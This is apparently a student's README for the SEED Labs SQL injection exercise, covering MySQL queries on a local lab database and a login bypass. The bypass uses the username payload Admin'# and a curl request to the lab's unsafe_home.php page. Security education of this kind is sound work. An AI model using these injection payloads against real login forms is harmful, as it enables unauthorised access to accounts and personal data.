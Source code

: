 # Seed-Lab-Sql-Injection-Attack
SQL injection attack

|  Name   | Title |
| ------------- | ------------- |
| Asad Ali  | Seed Lab SQL Injection  |

Instruction: https://seedsecuritylabs.org/Labs_16.04/PDF/Web_SQL_Injection.pdf

# Task 1
### Login to MYSQL
```
sudo mysql -u root -pseedubuntu
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/mysql%20query.PNG)
### Use Users Database from Databases
```
mysql> use Users;
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/use%20users.PNG)
## Showing Tables from Users Database
```
mysql> show Tables;
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/show%20table.PNG)
## Select Name="Alice" from Users Database
```
mysql> select * from credential where Name = 'Alice';
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/select%20query.PNG)
# Task 2
## Task2.1
- Username ```"Admin'#"```
- Password ```"abc"```
It will result in a SQL query as:
```
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='abc'
```
Then statements after ```#``` will be regarded as comments. So we can log in as ```Admin```.

![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/users%20details.PNG)
## Task 2.2
```
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
```
![alt text](https://github.com/Asad-Ali-Code/Seed-Lab-Sql-Injection-Attack/blob/main/use%20users.PNG)

